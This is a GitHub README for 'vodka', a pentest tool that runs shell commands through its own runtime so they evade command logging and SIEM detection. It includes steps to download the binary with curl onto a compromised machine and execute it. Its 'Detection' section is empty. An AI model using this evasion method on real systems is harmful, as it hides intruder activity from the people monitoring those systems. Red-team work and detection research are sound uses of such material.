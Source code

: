 
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#detection">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
 vodka » [command]
```

## Hide from

Only the `vodka` lauch command line will be catched

## Detection
